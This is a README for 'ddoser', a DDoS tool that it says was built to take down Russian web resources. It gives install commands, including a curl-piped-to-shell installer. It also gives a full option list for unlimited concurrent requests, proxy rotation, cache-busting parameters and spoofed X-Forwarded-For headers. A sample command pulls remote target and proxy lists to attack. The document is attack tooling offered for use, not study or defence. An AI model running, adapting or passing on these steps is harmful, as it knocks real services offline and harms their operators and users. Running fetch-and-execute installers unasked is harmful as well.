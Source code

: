 # The you seddoser
Small application for ddos attack, was developed special for kill russian's resources :)
# Contacts
If you have a questions or any proposal/bug thern pls contact us [ddoser telegram group](https://t.me/+eodJuvlTiK9hYWYy)
## Docker run (easy way)
Install docker https://docs.docker.com/engine/install/
```shell
# with default urls and proxies
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser
# with custom params
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser --target-urls-file sime.txt ... (check usage section)
# help
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser --help
```
Each run will update ddoser inside.
## Install
### Debian/Ubuntu
```shell
sudo apt-get update && sudo apt-get install -y git && \
git clone https://github.com/taransergey/ddoser.git && cd ddoser && ./install.sh
```

### MacOs
Download and install python3.7-3.9 form here https://www.python.org/downloads/macos/ if you don't have it
or install by brew
```shell
brew install python@3.9
brew link python@3.9
```
### Common for any system
```shell
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
### install by helper script
Also you can install in Linux by command:
```shell
curl https://raw.githubusercontent.com/taransergey/ddoser/main/ddoser_install.sh | sh
```

## Run
### Default options

```shell
./run.sh
```

### Custom parameters

```shell
Usage: ddoser.py [OPTIONS]

  Run ddoser

Options:
  --target-url TEXT            ddos target url
  --target-urls-file TEXT      path or url to file contains urls to ddos
  --proxy-url TEXT             url to proxy resourse
  --proxy-file TEXT            path to file with proxy list
  --concurrency INTEGER        concurrency level
  --count INTEGER              requests count (0 for infinite)
  --timeout INTEGER            requests timeout
  -v, --verbose                Show verbose log
  --ignore-response            do not wait for response body
  --with-random-get-param      add random get argument to prevent cache usage
  --user-agent TEXT            custom user agent
  --log-to-stdout              log to console
  --restart-period INTEGER     period in seconds to restart application (reload proxies ans targets)
  --random-xff-ip              set random ip address value for X-Forwarder-For header
  --custom-headers TEXT        set custom headers as json
  --stop-attack INTEGER        stop the attack when the target is down after N tries
  --shuffle-proxy              Shuffle proxy list on application start
  -H, --header <TEXT TEXT>...  custom header
  --proxy-custom-format TEXT   custom proxy format like "{protocol}://{ip}:{port} {login}:{password}"
                               (ip and port is required, protocol can be set by --protocol)
  --help                       Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
ip3:port3#sock4 login:password
ip4:port4#http login:password
ip5:port5#http login:password
ip6:port6#https login:password
...
ipN:portN#sock4
```
### Example cmd
```shell
python3 ./ddoser.py --concurrency 150 --timeout 60 --with-random-get-param --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36" --count 0 --log-to-stdout --target-urls-file https://raw.githubusercontent.com/maxindahouze/reactor/main/targets3.txt --proxy-url 'http://143.244.166.15/proxy.list' --restart-period 600 --random-xff-ip
```
## Notes
**ddoser** supports SOCKS4/5 and HTTP(s) proxies with or without authorization, also can start it directly without proxy

Use **--restart-period** parameter to periodically reloading targets and proxies list   

If you see an error `too many open files` then you can decrease concurrency/targets count but first of all
try to increase the limits:
### Linux/MacOS:
```shell
ulimit -n 100000
```
### WSL:
```shell
mylimit=100000
sudo prlimit --nofile=$mylimit --pid $$; ulimit -n $mylimit
```
